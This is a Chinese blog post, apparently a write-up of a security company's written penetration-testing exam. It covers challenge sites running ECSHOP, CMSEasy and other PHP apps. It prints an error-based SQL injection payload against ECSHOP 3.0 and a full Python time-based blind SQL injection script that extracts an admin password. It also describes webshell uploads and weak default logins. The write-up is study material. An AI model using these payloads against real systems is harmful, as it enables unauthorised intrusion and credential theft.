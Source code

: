 ```yaml
---
layout: post
title: 四叶草安全笔试WP
date: 2017-08-31
categories: 笔试Write-Up
---
```


### 前言

夏令营结束后，不停的在面试、笔试以及准备面试、笔试。顺带被小伙伴带着吃鸡、到处浪。emmmmm......终于体会到了充实又放荡的切切实实的暑假生活。以至于准备填的坑还没填，不过呢，快开学了。很快就能有大把的时间填完。争取9月中之前整理完毕。今天的笔试正好是这种给链接去渗透的题目，而且需要WP，正好拿来写博客（才不是我懒的再写2333

### My Awesome Photoblog

嗯。。。第一题就跪了，我还是很心累的。扫描了网页目录，没有什么特殊发现，那就看看网页的逻辑。应该有一个index.php，一个cat.php，一个all.php，还有一个login.php。

index.php和all.php没有参数，所以没有思路。

cat.php参数是id，最开始认为是sql注入，所以使用if(database(),sleep(5),sleep(5))这种最简单的判断方式看是否存在注入，然而并没有。然后发现id=1=2=3，会不会是文件包含，然后尝试了几个伪协议，无果。

![1](/images/posts/seclover/1.png)

好吧，那我看login.php吧，试试注入，依旧无果。那就跪了。先放一边，其他做了如果有时间再来试试看是否是过滤很多的注入。

![1](/images/posts/seclover/2.png)

后来谷歌到了原题，admin的密码居然没有改，成功登陆。可是发现上传很奇怪，后缀是png,文件头也是png的文件头十六进制，去掉敏感字符内容依旧不能上传。。。没有办法了。切切实实的跪了

### Hi,Pentester?

还是一样的，一言不合扫后台，除了一个登陆界面，也没扫到什么有用的东西。

简单查看一下登陆界面，没有明显的注入，还是先看看其他逻辑，about里面有address.txt下载，下了之后发现是四叶草的电话号码。因为news.php里面有我更感兴趣的点，所以这个号码暂时先放着。可能是简单组合字典弱口令。

news.php感觉文件包含可能性很大啊，如图：

![1](/images/posts/seclover/3.png)

尝试了几个伪协议，均无果。

发现一个登陆界面，SQL尝试也无果。放弃

### 订餐

嗯。。。有登陆注册还以为有密码重置漏洞，结果居然不能发重置邮件出去，直接抓包跳到重置布置表示验证失效，很明显还是需要什么参数或者验证成功后的cookie的啊，但是没办法发邮件等于这条思路是不可能的。

后来发现有缓存文件夹，里面有一大堆php文件，但是无法下载源代码。

install.php因为上锁了，而且判断是否上锁后退出了函数没办法绕过。

注册新用户登录后，留言可以了但是尝试XSS失败，但是可以用XFF控制ip，但是并没有什么用，不能注入也不能命令执行。不过就算成功估计也只能X自己，管理员不知道能不能看见这个留言。

修改密码也是，因为是cookie认证，没办法重置admin的密码。

找回密码发现可能有盲打XSS，写个iframe过去试试。但是并没有返回。

### ECSHOP

目录扫描一下，发现有fckeditor，但是没有什么用，upload.php似乎被删掉了。install同样锁死了。发现首页最下面有个版本信息，遂看了下版本，是3.0，于是百度一下已知漏洞，发现有人审计后发现flow.php的order_id存在注入，于是测试一下，确实存在。

构造语句注入得到admin账户以及密码，但是密码在线md5未解出来。如图：

![1](/images/posts/seclover/4.png)

账户：admin:5009#

密码hash：a684073c5b42a5eb8461a9d6ae5c71

payload:
```
1 or extractvalue(1,concat(0x7e,(select distinct concat(0x23,user_name,0x3a,ec_salt,0x23)from ecs_admin_user limit 0,1))) or 1#
```

### RAICO

老规矩扫目录，发现有个后台登录界面，而且还有盲注点。证明payload如下

![](/images/posts/seclover/5.png)

界面会停止5秒再响应,所以存在时间盲注。于是写了一个脚本

```
# encoding=utf-8
import httplib
import time
import string
import sys
import random
import urllib

database = 'web'
tables = 'rco_admin'
fields = ''
data = ''

dbpayload = '\' and if(ascii(mid(version(),%d,1))=%d'
tablepayload = "\' and if(ascii(mid((select(concat(table_name))from(information_schema.tables)where(table_schema=\'" + \
    database + "\')limit 0,1),%d,1))=%d"
fieldspayload = "\' and if(ascii(mid((select(concat(column_name))from(information_schema.columns)where(table_name=\'" + tables + "\')limit 2,1),%d,1))=%d"
finalpayload = "\' and if(ascii(mid((select(admin_pw)from(rco_admin )limit 0,1),%d,1))=%d"

headers = {'Content-Type': 'application/x-www-form-urlencoded'}
print '[%s] Start to retrive dbname:' % time.strftime('%H:%M:%S', time.localtime())
flag = ''
isEnd = False
for i in range(1, 36):
    if isEnd:
        break
    isEnd = True
    for j in range(33, 127):
        url = '/admin/login.php'
        start_time = time.time()
        data = "UserName=admin" + finalpayload % (i, j) + \
            ",sleep(5),1)#&PW=admin&btnLogin=+%B5%C7%C8%EB+"
        conn = httplib.HTTPConnection(
            'ed15a272730fcb59.yunyansec.com', timeout=60)
        conn.request(method='POST', url=url, body=data, headers=headers)
        html_doc = conn.getresponse().read
        # print html_doc
        conn.close()
        print '.',
        print data
        if (time.time() - start_time > 5):
            isEnd = False
            flag += chr(j)
            print '[in progress]', flag, '\n'
            break
        time.sleep(0.01)
print '[Done] The Flag is %s \n' % flag
time.sleep(20)
```

数据库:`web`

表:`admin_id``admin_name``admin_pw`

密码：`b4fe6578538b526`

最开始写这种聚合、嵌套语句写的太久了。花了一两个小时修修改改才跑到表名。后来发现navicat有美化sql后，就写的比较快了。

### cmseasy

有点无语。。。admin-admin弱密码登录成功了。

还准备申请一个账号重置管理员密码的

修改模板抓包保存为shell。

![](/images/posts/seclover/6.png)
![](/images/posts/seclover/7.png)

保存文件的地址在GET的参数里。访问后POST请求即可。如上图

### myphp

又是模板。。。百度下载到v4.1的源码，审计一下。

看到安装的时候数据库名似乎存在注入，准备去试试，结果访问install.php时直接覆盖安装了。。。

![](/images/posts/seclover/8.png)

如图，之后重置管理员账户，进入后台。

![](/images/posts/seclover/9.png)

模板修改失败，但是找到一个上传点，直接上传php，获得shell

![](/images/posts/seclover/10.png)

转载请注明：[碎雪的小屋](http://RoyTse.github.io) » [四叶草安全笔试WP](http://RoyTse.github.io/2017/08/四叶草安全笔试WP/)  